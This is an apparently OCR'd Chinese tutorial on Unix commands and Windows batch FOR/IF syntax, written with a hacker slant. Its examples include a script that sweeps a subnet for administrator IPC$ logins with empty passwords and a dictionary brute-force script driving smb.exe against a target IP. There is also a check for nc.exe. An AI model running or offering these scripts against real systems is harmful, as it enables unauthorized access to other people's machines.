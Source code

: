 ```cmd
history 查看自己下过的命令 
ps 显示进程状态 
kill 停止某进程 
gcc 黑客通常用它来编译C语言写的文件 
su 权限转换为指定使用者 
telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。 
ftp ftp连接上某服务器（同win2K） 


附：批处理命令与变量 


1：for命令及变量 基本格式： 
FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。 
批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指 输入的第2-9个值；例：net use //ip/ipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3 


(set):指定一个或一组文件，可使用通配符，如：(D:/user.txt)和(1 1 254)(1 -1 254),{ "(1 1 254)"第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；"(1 -1 254)"说明：即从254到1 } 


command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开 
command_parameters：为特定命令指定参数或命令行开关 


IN (set)：指在(set)中取值；DO command ：指执行command 


参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:/pass.txt)时 }。 
用法举例： 
@echo off 
echo 用法格式：test.bat *.*.* > test.txt 


for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use //%1.%%G /user:administrator | find "命令成功完成" >>test.txt 
存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。 


/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。 
@echo off 
echo 用法格式：ok.bat ip 
FOR /F %%i IN (D:/user.dic) DO smb.exe %1 %%i D:/pass.dic 200 
存为：ok.exe 说明：输入一个IP后，用字典文件d:/pass.dic来暴解d:/user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入 的IP地址（默认）。 


#7 七： 


2：if命令及变量 基本格式： 
IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为"真"。 
例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。 
0 指发现并成功执行（真）；1 指没有发现、没执行（假）。 
IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。 
例："if "%2%"=="4" goto start"指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "） 
IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。 
例："if not nc.exe goto end"指：如果没有发现nc.exe文件就跳到":end"标签处。 
IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如："if exist test.txt. else echo test.txt.missing "，注意命令中的"." 
```